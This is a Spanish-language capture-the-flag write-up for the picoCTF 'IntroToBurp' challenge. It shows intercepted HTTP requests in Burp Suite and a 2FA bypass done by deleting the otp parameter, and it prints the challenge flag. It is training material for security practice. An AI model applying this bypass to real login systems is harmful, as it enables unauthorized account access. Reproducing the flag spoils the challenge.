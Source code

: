 # IntroToBurp

## Descripcion
Try [here](http://titan.picoctf.net:64701/) to find the flag
## Solucion
Nos conectamos al reto con el link que nos proporcionan.
Vemos que tenemos un formulario, lo llenamos con datos al azar y despues nos pide un factor de doble autenticacion. Cosa que no tenemos. Entonces vamosa  Burpsuite para ver como es que se forman las peticiones:
En la primera del formulario, no vemos nada raro
```
POST / HTTP/1.1
Host: titan.picoctf.net:64701
Content-Length: 208
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://titan.picoctf.net:64701
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:64701/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJjc3JmX3Rva2VuIjoiOGE1ODk0OTNlNjE3ZThiNmE3NjliYzdhZWU5NGU5OTExM2Y5NjZiZiJ9.Z-isSw.nZwUEMbDPuA_k8gVL7DZ7HJJWEc
Connection: keep-alive

csrf_token=IjhhNTg5NDkzZTYxN2U4YjZhNzY5YmM3YWVlOTRlOTkxMTNmOTY2YmYi.Z-isSw.IIKD2jQqkrofTn4dt_dNHxyONEQ&full_name=Mario&username=xrengariox&phone_number=0123456789&city=Zac&password=password123&submit=Register
```
Pero en la del 2FA vemos el campo de otp. Como no tenemos un otp, vamos a eliminar esto para ver que pasa, ademas de que en las pistas nos dice que posiblemente el sitio no maneja bien las solicitudes mal formadas:
```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:64701
Content-Length: 18
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://titan.picoctf.net:64701
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:64701/dashboard
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJw1jEEOwiAQRe_C2kVpKTDewQu4IQMO2thCA21aY7y700R3_7-X_98iDMtLnMUVgziJUEt0S35SYmSxt6CgIy0NWa_RaPDBIBEoApCyi6C1j7yL6zi6hBPx7IJlyMzyMnOT0CjZcp2x1i2XG7N_lG13iEdO5NI6eSosG6aq18YCu7VS-d3uhdL9uN7F5wuC4Dem.Z-iseg.mFAEo71OsFt9RKXiBwn_NJOMk44
Connection: keep-alive

otp=asfsdfujhasjfd
```
Y al borrar la linea de otp obtenemos la flag:
```flag
picoCTF{#0TP_Bypvss_SuCc3$S_3e3ddc76}
```
## Notas adicionales

## Referencias
